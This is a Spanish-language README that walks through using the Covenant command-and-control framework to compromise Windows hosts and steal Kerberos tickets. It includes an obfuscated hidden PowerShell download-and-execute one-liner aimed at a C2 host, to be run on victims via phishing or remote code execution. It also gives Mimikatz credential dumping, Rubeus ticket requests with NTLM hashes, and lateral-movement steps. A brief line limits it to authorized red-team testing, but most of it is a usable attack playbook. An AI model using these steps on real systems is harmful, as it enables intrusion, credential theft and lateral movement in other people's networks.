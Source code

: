 # CovenTicket
Guía paso a paso para robar un *Ticket Granting Ticket (TGT)* de Kerberos usando **Covenant** como C2. Incluye:
1. **Preparación**: Instalación de Covenant en Kali Linux (requiere .NET Core).  
2. **Técnicas**:  
   - Uso de **Rubeus** (`asktgt`) para generar TGT con credenciales/NTLM hash.  
   - Extracción de tickets con **Mimikatz** (`sekurlsa::tickets`).  
3. **Propósito**:  
   - Movimiento lateral en redes Active Directory.  
   - Escalada de privilegios (*Golden Ticket*).  
4. **Contexto Ético**:  
   - Solo para pruebas de penetración *autorizadas* y entrenamiento Red Team.  
   - Técnicas asociadas a **MITRE ATT&CK T1558.001**.  

# 🔧 Configuración inicial

-  Cambiar credenciales predeterminadas (en la primera ejecución).

-  Crear un Listener (HTTP/HTTPS) para recibir conexiones de los Grunts.

-  Generar un Launcher (PowerShell, Binary, etc.) para infectar los sistemas objetivo.

  
## 1⚙️ Instalación de Covenant:
```bash
https://github.com/cobbr/Covenant/wiki/Installation-And-Startup
````

## 2 Ejecutar Covenant (modo desarrollo):

````bash
dotnet run
````
## 3 Acceder a la interfaz web: 
Abre un navegador y visita:
🔗 http://localhost:7443
Credenciales por defecto:
```bash
Usuario: usuario
Contraseña: password123
```

## 4 🎧 Configuración del Listener (HTTP/HTTPS)

-  Ve a Listeners > Create.

-  Selecciona HTTP (o HTTPS si tienes certificados).

- Configuración básica:

    - Name: MiListener-HTTP

    - BindAddress: 0.0.0.0 (escucha en todas las interfaces).

    - BindPort: 80 (HTTP) o 443 (HTTPS).

    - ConnectAddress: <IP_Pública_o_Dominio> (¡Obligatorio!).

- Perfiles C2: Usa uno predefinido (ej: default) o personaliza headers/user-agents.

- Guardar e Iniciar:

    - Click en Create y luego en Start.

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Listener.png)

## 2 🚀 Generación de Launchers
Objetivo: Crear payloads para ejecutar en sistemas víctimas y obtener Grunts.

### Tipos comunes y pasos:

- A. PowerShell Launcher (One-liner):
    - Ve a Launchers > PowerShell.

    - Configura:

        - Listener: MiListener-HTTP.

        - Obfuscation: Habilita Obfuscate Command (evita detección).

![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Launcher_Generate.png)
    
   - Generar
        - Copia el comando resultante
        
      ```bash
      powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<C2_IP>/launcher.ps1')"
      ```
        
        - Ejecútalo en la máquina víctima (ej: via phishing o RCE).
  
![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Covenant-Launcher_Host.png)

  - B. Binary Launcher (EXE)

    - Ve a Launchers > Binary.

    - Configura:

        - Listener: MiListener-HTTP.

        - DotNet Version: Net40 (compatible con más sistemas).

    - Generar:

        - Descarga el .exe y ejecútalo en la víctima.

## 3 🤖  Administración de Grunts
### Objetivo: Interactuar con los sistemas comprometidos.

Pasos: 
  - Ver Grunts activos:

     - En el dashboard principal, aparecerán bajo Grunts al conectarse.

  - Interactuar con un Grunt:

    - Selecciona el Grunt > Click en Interact.
![imagen](https://github.com/90l3m0np13/CovenTicket/blob/main/Covenant/Grunt-Interact.png)

    - Usa la consola para ejecutar comandos:
     ```bash
     Shell whoami /all          # Ver información del usuario.
     Shell net user /domain     # Listar usuarios del dominio (si es AD).
     ````
Comandos útiles:

-  Comando | 	Descripción

-  Shell <cmd>	|  Ejecuta comandos del sistema.

-  Upload <local> <remoto>	| Sube archivos al Grunt.

-  Download <remoto> <local>	| Descarga archivos del Grunt.

-  Ps |	Lista procesos en ejecución.

-  Inject <PID> <shellcode> |	Inyecta código en un proceso.

-  Pivot <técnica> |	Movimiento lateral (ej: SMB, WMI).

### Módulos avanzados.
 - Mimikatz Extraer credenciales:
```bash
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
````
 - Rubeus Robar tickets Kerberos (TGT):
```bash
Execute Rubeus.exe asktgt /user:Administrator /rc4:<NTLM_Hash> /nowrap
````
# 🚨 Solución de errores comunes
Error con ICU:

````bash
sudo apt install libicu-dev -y
export DOTNET_SYSTEM_GLOBALIZATION_INVARIANT=1
````
Problemas con .NET:
````bash
wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update && sudo apt install -y dotnet-sdk-6.0
````

## 🎯 Ejemplo de Flujo Completo
  - Listener: Creas MiListener-HTTP en el puerto 80.
  - Launcher: Generas un one-liner de PowerShell y lo ejecutas en la víctima.
  - Grunts: Interactúas con el Grunt, robas credenciales con Mimikatz y te mueves lateralmente.

## 📌 Notas clave
  - Kali + Covenant: Asegúrate de que el servidor Covenant sea accesible desde el exterior (configura NAT/port forwarding si es necesario).
  - HTTPS > HTTP: Siempre preferible para evitar sniffing.
  - Grunts muertos: Si un Grunt se cae, regenera el Launcher con el mismo perfil.


